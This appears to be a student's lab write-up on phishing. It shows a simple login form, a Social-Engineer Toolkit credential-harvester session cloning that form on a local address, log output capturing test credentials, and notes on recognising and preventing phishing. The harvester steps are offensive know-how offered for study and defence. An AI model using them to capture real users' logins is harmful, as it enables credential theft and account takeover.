


# LAB02

#### 1️⃣ Preparing the test form

```bash
┌──(newtyman㉿Neyc-PC)-[~/lab02]
└─$ nano login.html

┌──(newtyman㉿Neyc-PC)-[~/lab02]
└─$ cat login.html 
<!DOCTYPE html>
<html lang="sl">
<head>
<meta charset="UTF-8">
<title>Login</title>
</head>
<body>
<h2>Login to the system</h2>
<form method="POST" action="">
Username: <input type="text" name="username"><br>
Password: <input type="password" name="password"><br>
<input type="submit" value="Login">
</form>
</body>
</html>

┌──(newtyman㉿Neyc-PC)-[~/lab02]
└─$ 
```

### 2️⃣ Launch SET and clone the site

```
set:webattack> IP address for the POST back in Harvester/Tabnabbing [172.28.87.120]: 
[!] Example: /home/website/ (make sure you end with /)
[!] Also note that there MUST be an index.html in the folder you point to.
set:webattack> Path to the website to be cloned: /home/newtyman/lab02
[*] Index.html found. Do you want to copy the entire folder or just index.html?

1. Copy just the index.html
2. Copy the entire folder

Enter choice [1/2]: 1
[-] Example: http://www.blah.com
set:webattack> URL of the website you imported: http://172.28.87.120

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
```

### 3️⃣ Testing

```
172.28.80.1 - - [16/Nov/2026 22:51:15] "GET / HTTP/1.1" 200 -
172.28.80.1 - - [16/Nov/2026 22:51:15] "GET /favicon.ico HTTP/1.1" 404 -
[*] WE GOT A HIT! Printing the output:
POSSIBLE USERNAME FIELD FOUND: username=test
POSSIBLE PASSWORD FIELD FOUND: password=password123
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.


172.28.80.1 - - [16/Nov/2026 22:52:17] "GET / HTTP/1.1" 200 -
```

### 📝 Analysis and Report

#### Screenshot of the fake login page


#### Screenshot of the terminal with the captured data


#### A brief description of how the victim would recognize that it is a phishing page

- The site is HTTP and not HTTPS
- Lack of CSS or any other visuals (usually indicates fake sites)
- The website URL in an IP address and not a host name

### 3️⃣ Reflection and Analysis

#### What are the characteristics of phishing pages (e.g., a wrong URL)?
- Wrong or malformed URL, for example IP address instead of domain, gooogle.com instead of google.com, etc.
- Usually the sites are HTTP and not HTTPS. If they are HTTPS, they can contain suspicious TLS certificates.
- Poor website apperance, lack of CSS, doesn't look like the official site login page (in cases of site cloning)

#### How would you protect yourself from such an attack?
- Always check for all the characteristics described above
- Use different browser plugins to detect potentially dangerous sites, anti-malware software with web security integrated, network level protection, etc.

#### Why do modern sites make such attacks more difficult?
- Modern authentication now requires MFA, meaning that just username/password will usually not be enough
- Passkey authentication, which is bound to the domain of the official website
- More sophisticated anti-phishing integrations in browsers, antivirus software, OS and network